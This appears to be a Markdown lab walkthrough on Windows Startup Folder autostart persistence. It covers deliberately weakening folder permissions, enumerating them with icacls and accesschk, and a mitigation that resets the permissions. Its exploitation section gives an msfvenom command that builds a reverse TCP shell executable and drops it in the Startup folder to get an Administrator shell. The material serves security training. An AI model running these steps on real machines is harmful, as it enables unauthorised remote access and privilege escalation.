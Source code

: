 # Logon Autostart Execution (Startup Folder)

## Table of Contents

- [Logon Autostart Execution (Startup Folder)](#logon-autostart-execution-startup-folder)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup)
  - [Enumeration](#enumeration)
    - [Manual Enumeration](#manual-enumeration)
    - [Tool Enumeration](#tool-enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

Logon Autostart Execution via Startup Folder is a Windows feature that enables specific programs or scripts to launch automatically when a user logs into the system. This feature allows these programs or scripts to launch automatically without any manual action from the user when the operating system starts up.

Attackers may exploit the Logon Autostart Execution feature by inserting malicious software into the Startup Folder. This enables the malicious code to automatically launch during system startup, potentially granting it elevated privileges. 

## Lab Setup

### Manual Lab Setup

:warning: <b>If you are usinfg Windows 10/11 to proceed with this scenario, the local Administrator account needs to be enabled. I have created a PowerShell script named [EnableLocalAdmin.ps1](/Lab-Setup-Scripts/EnableLocalAdmin.ps1), designed to enable the local Administrator account and set a password. Please run this script with elevated privileges.</b>

1) Navigate via File Explorer to the directory which contains StartUp Folder using the following path:

```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\
```

Outcome:

![Logon-Autostart-Execution-Startup-Folder-Lab-Setup-Part-1](/Pictures/AutostartStartupFolder-LabSetup-Part1.png)

2) Right click on Startup folder and choose properties option:

![Logon-Autostart-Execution-Startup-Folder-Lab-Setup-Part-2](/Pictures/AutostartStartupFolder-LabSetup-Part2.png)

3) Choose the 'Security' tab and select the 'Users' group:

![Logon-Autostart-Execution-Startup-Folder-Lab-Setup-Part-3](/Pictures/AutostartStartupFolder-LabSetup-Part3.png)

4) Assign Full Control or Read and Write permissions to the Users group and then press the 'Apply' button:

![Logon-Autostart-Execution-Startup-Folder-Lab-Setup-Part-4](/Pictures/AutostartStartupFolder-LabSetup-Part4.png)

### PowerShell Script Lab Setup 

:warning: <b>If you are usinfg Windows 10/11 to proceed with this scenario, the local Administrator account needs to be enabled. I have created a PowerShell script named [EnableLocalAdmin.ps1](/Lab-Setup-Scripts/EnableLocalAdmin.ps1), designed to enable the local Administrator account and set a password. Please run this script with elevated privileges.</b>

To set up the lab with the 'Logon Autostart Execution (Startup Folder)' scenario use the custom PowerShell script named [LogonAutostartExecutionStartupFolder.ps1](/Lab-Setup-Scripts/LogonAutostartExecutionStartupFolder.ps1).

Open a PowerShelll with local Administrator privileges and run the script:

```
.\LogonAutostartExecutionStartupFolder.ps1
```

Outcome:

![Logon-Autostart-Execution-Startup-Folder-Lab-Setup-Script](/Pictures/AutostartStartupFolder-LabSetup-Script.png)

## Enumeration

### Manual Enumeration

To perform manual enumeration and identify whether a Windows workstation is vulnerable to the Startup Folder Autoruns issue, you can use the following command from a command prompt:

```
icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

Outcome:

![AutostartStartupFolder-Manual-Enumeration](/Pictures/AutostartStartupFolder-Manual-Enumeration.png)

### Tool Enumeration

To perform an enumeration of the `Startup Folder Autoruns` vulnerability, you can use accesschk.exe or accesschk64.exe from Sysinternals Suite and execute the following command with appropriate arguments:

```
accesschk.exe /accepteula "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

Outcome:

![AutostartStartupFolder-Tool-Enumeration](/Pictures/AutostartStartupFolder-Tool-Enumeration.png)

## Exploitation

1) Use msfvenom to generate a malicious executable (exe) file that can be executed via the booting of the victim's machine:

```
msfvenom -p windows/x64/shell_reverse_tcp lhost=eth0 lport=1234 -f exe > shell.exe
```

2) Transfer the malicious executable file to victim's machine.

3) Move the malicious executable file to 'C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup'.

Outcome:

![AutostartStartupFolder-Exploitation](/Pictures/AutostartStartupFolder-Exploitation.png)

4) Open a listener on your Kali machine.

5) Reboot the victim's machine and login as Adminstrator:

![Reboot-victim-machine](/Pictures/Reboot-Victim-Machine2.png)

6) Verify the reverse shell on your Kali machine:

![Reverse-Shell-As-Admin-StartupFolderAutoRuns](/Pictures/Reverse-Shell-As-Admin-RegistryAutoRuns.png)

## Mitigation

Properly configured permissions within the Startup Folder act as a preventive measure against unauthorized modifications or executions of files within the directory. This proactive approach effectively reduces the likelihood of malicious programs or scripts launching automatically during system booting.

Moreover, to restore the default permissions of the Startup Folder, utilize the following command with elevated privileges:

```
icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" /reset /T /C /Q
```

## References

- [Add an app to run automatically at startup in Windows 10 Microsoft](https://support.microsoft.com/en-us/windows/add-an-app-to-run-automatically-at-startup-in-windows-10-150da165-dcd9-7230-517b-cf3c295d89dd)
- [How To Find the Startup Folder in Windows 10 Softwarekeep](https://softwarekeep.com/help-center/how-to-find-the-startup-folder-in-windows-10)
